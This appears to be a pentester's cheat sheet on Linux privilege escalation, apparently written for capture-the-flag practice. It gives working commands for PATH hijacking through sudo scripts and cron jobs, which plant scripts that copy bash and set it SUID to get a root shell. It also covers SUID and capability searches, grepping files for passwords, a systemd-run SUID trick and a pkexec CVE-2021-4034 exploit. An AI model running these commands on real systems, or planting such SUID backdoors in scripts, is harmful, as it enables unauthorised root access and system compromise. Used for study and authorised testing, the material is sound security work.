 ```yaml
---
icon: linux
---
```


# Linux Privilege Scalation

* ## <mark style="color:purple;">Get your own local version of this checklist</mark> [<mark style="color:purple;">here</mark>](https://raw.githubusercontent.com/HackTricks-wiki/hacktricks/refs/heads/master/linux-hardening/linux-privilege-escalation-checklist.md)<mark style="color:purple;">:</mark>

{% embed url="https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist" %}
By Carlos Palop
{% endembed %}

* ## <mark style="color:purple;">Make sure you have</mark> <mark style="color:orange;">`pspy`</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">`linpeas`</mark> <mark style="color:purple;">ready:</mark>

{% embed url="https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md" %}

{% embed url="https://github.com/DominicBreuker/pspy" %}

***

{% hint style="info" %}
## <mark style="color:orange;">`PATH`</mark> <mark style="color:purple;">Hijacking</mark>

* <mark style="color:purple;">When a script is executed with elevated privileges (e.g., via</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">or in a</mark> <mark style="color:orange;">**`cron`**</mark> <mark style="color:purple;">job) and calls other binaries or scripts without absolute paths, it may be possible to hijack the execution flow by manipulating the</mark> <mark style="color:orange;">**`PATH`**</mark> <mark style="color:purple;">variable or exploiting relative paths.</mark>

***

### <mark style="color:orange;">`PATH`</mark> <mark style="color:purple;">Hijacking with</mark> <mark style="color:orange;">`sudo`</mark>

{% code title="Lists allowed commands" %}
```bash
sudo -l
```
{% endcode %}

* <mark style="color:purple;">Sometimes is possible to run scripts as</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">that call others scripts within the script.</mark>
* <mark style="color:purple;">When this scripts are called by a relative path is possible to create a malicious script on a directory with write permissions.</mark>
* <mark style="color:purple;">This commands creates a script called</mark> <mark style="color:orange;">**`initdb.sh`**</mark> <mark style="color:purple;">that well called will copy</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">to a file called</mark> <mark style="color:purple;"></mark>_<mark style="color:purple;">**shellie**</mark>_ <mark style="color:purple;"></mark><mark style="color:purple;">in the</mark> <mark style="color:orange;">**`/tmp`**</mark> <mark style="color:purple;">folder:</mark>

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/shellie\nchown root:root /tmp/shellie\nchmod 6777 /tmp/shellie' | tee initdb.sh
```

* <mark style="color:purple;">Once the  malicious script is executed by the vulnerable script, you just need to execute the shell from the</mark> <mark style="color:orange;">**`/tmp`**</mark> <mark style="color:purple;">folder to become</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">:</mark>

```bash
/tmp/shellie -p
```

***

### <mark style="color:purple;">Path Hijacking in</mark> <mark style="color:orange;">`cron`</mark> <mark style="color:purple;">job</mark>

* <mark style="color:purple;">When</mark> <mark style="color:orange;">**`PATH`**</mark> <mark style="color:purple;">includes</mark> <mark style="color:orange;">**`/usr/local/bin`**</mark> <mark style="color:purple;">before</mark> <mark style="color:orange;">**`/usr/bin`**</mark> <mark style="color:purple;">in the</mark> <mark style="color:orange;">**`cron`**</mark> <mark style="color:purple;">job's environment.</mark>&#x20;
* <mark style="color:purple;">There is an opportunity for</mark> <mark style="color:orange;">**`PATH hijacking`**</mark> <mark style="color:purple;">if a binary or script is executed</mark> <mark style="color:orange;">**`without using an absolute path`**</mark><mark style="color:purple;">**.**</mark>
* <mark style="color:purple;">By placing a malicious binary in a directory earlier in the</mark> <mark style="color:orange;">**`PATH`**</mark> <mark style="color:purple;">(e.g.,</mark> <mark style="color:orange;">**`/usr/local/bin`**</mark><mark style="color:purple;">), you can hijack the execution flow.</mark>

```sh
echo -e '#!/bin/bash\n\ncp /bin/bash /bin/shellie\nchmod u+s /bin/shellie' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```

* <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">drops</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">privileges by default, so make sure to run it with</mark> <mark style="color:orange;">**`-p`**</mark> <mark style="color:purple;">to keep root:</mark>

```bash
shellie -p
```
{% endhint %}

















Netstat

```bash
#Option 1
netstat -l

#Ports
netstat -nltp

#More
netstat -rn
```

Look for files

```bash
#SUID
find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -or -perm -2000 2>/dev/null
#Binaries con capabilities
getcap -r / 2>/dev/null

#Extra info about bin process 
**getfacl** 

#Passwords
grep -iR "pass" *
grep password .*.* -r
#File
grep -ir cri-o . 2>/dev/null

#Look for a specific file
find / -name lcars 2>/dev/null
find / -name root.txt 2>/dev/null

#Inside a file
cat /etc/zabbix/zabbix_server.conf | grep -Ev "^#" | grep .

#Check libraries
ltrace

#Looking for 32 characters file
#hex
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
#string 32 chars
strings /dev/sdb -n 32
```

User Privileges

```bash
Check user root privileges —> sudo -l
```

Port Forwarding

```bash
ssh -L {TARGETPORT}:127.0.01:8000 [sau@](<mailto:sau@10.10.11.214>){TARGETIP}
```

Symbolic Link

```bash
ln -s /root/root.txt t.trace.db
```

Common Vectors

```bash
#systemd-run + bash -p
systemd-run chmod u+s /bin/bash
bash -p

#pkexec
python3 CVE-2021-4034.py
```

Flash drives

```bash
#Enumerate mounted disks
mount
#more
lsblk
```

SUDO

```bash
#Interective shell
sudo -i
#su vuln
sudo su -
```

